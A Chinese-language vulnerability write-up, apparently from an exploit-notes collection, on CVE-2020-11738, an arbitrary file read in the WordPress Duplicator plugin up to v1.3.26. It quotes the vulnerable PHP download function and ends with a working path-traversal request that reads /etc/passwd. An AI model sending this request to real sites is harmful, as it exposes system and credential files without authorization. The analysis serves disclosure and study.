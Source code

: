 # WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

# WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

## 漏洞描述

WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞

## 漏洞影响

```
Duplicator <= v1.3.26
```

## 插件名

Duplicator

https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip

## 漏洞复现

首先先查看注册的无需授权的action接口 `wp-content/plugins/duplicator/ctrls/class.web.services.php`

![](/images/202205241332267.png)

这里 `wp_ajax_nopriv_duplicator_download` 对应的函数名为 duplicator_download

![](/images/202205241332007.png)

```
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知

DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取

```
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```

![](/images/202205241334750.png)

